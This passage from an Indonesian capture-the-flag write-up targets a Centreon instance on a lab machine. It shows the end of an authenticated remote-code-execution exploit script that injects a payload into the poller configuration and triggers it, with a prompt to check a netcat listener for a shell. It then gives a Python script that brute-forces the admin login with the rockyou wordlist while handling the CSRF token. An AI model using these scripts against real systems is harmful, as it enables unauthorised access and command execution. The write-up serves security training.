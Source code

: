 ```
        "submitC": "Save",
        "id": "1",
        "o": "c",
        "centreon_token": poller_token,
 
 
    }
 
    send_payload = request.post(poller_configuration_page, payload_info)
    print("[+] Injecting Done, triggering the payload")
    print("[+] Check your netcat listener !")
    generate_xml_page = url + "/include/configuration/configGenerate/xml/generateFiles.php"
    xml_page_data = {
        "poller": "1",
        "debug": "true",
        "generate": "true",
    }
    request.post(generate_xml_page, xml_page_data)
 
else:
    print("[-] Wrong credentials")
    exit()
```

Ternyata bruteforce yang kita lakukan dari tadi gagal karena kita tidak menyertakan CSRF token saat proses submit nya. Penulis berencana mendaur ulang code diatas untuk dijadikan scipt bruteforcing login credentials. Penulis membuat script seperti berikut

```
#!/usr/bin/env python3
 
import requests
import warnings
from bs4 import BeautifulSoup
 
warnings.filterwarnings("ignore", category=UserWarning, module='bs4')
 
url = "http://10.10.10.157"
username = "admin"
 
loop = True
wordlist = "../../../Downloads/rockyou.txt"
 
with open(wordlist, encoding="latin-1") as password:
        password = password.readlines()
 
count = 0
for PASS in password:
	PASS = PASS.rstrip('\n')
 
	count+=1
 
	request = requests.session()
	page = request.get(url+"/centreon/index.php")
	html_content = page.text
	soup = BeautifulSoup(html_content)
	token = soup.findAll('input')[3].get("value")
 
	login_info = {
	    "useralias": username,
	    "password": PASS,
	    "submitLogin": "Connect",
	    "centreon_token": token
	}
```